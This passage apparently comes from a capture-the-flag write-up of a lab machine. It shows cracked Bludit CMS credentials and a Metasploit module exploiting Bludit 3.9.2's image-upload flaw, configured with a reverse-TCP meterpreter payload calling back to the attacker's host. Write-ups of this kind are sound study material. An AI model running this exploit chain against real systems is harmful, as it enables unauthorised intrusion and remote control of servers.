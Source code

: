 ```
[root@kali Blunder ]$ ./bludit.py
[+]fergus:RolandDeschain
```
Now we can use these credentials to access Bludit CMS.  
Now that we have access, coming back to our initial findings, we can use the one authenticate exploit to hopefully gain an initial foothold.  
```
msf6 > search bludit           

Matching Modules               
================                                                                                                      

   #  Name                                          Disclosure Date  Rank       Check  Description     
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/linux/http/bludit_upload_images_exec  2019-09-07       excellent  Yes    Bludit Directory Traversal Image File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/bludit_upload_images_exec

msf6 > use exploit/linux/http/bludit_upload_images_exec
```
Now we can set options accordingly:
```
msf6 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
```
Now if we run the exploit we get a meterpreter session:  
```
msf6 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.17:4444
```
